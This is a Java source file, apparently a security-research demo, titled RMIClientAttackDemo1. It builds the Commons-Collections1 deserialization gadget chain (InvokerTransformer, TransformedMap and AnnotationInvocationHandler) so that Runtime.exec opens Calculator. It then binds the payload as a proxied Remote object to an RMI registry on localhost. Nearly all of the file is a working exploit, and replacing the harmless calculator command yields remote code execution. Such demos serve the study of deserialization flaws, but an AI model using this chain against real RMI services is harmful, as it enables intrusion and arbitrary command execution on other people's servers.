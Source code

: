 ```java
 * @Data: 2022/1/30 1:42 上午
 */
public class RMIClientAttackDemo1 {
    public static void main(String[] args) throws RemoteException, NotBoundException, MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, AlreadyBoundException {

        // Commons-Collection1链
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        // 将代理对象转换为了Remote对象
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[]{Remote.class}, invocationHandler);

        // 获取远程对象实例
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);
        registry.bind("demoCaseBegin", r);
    }
}
```

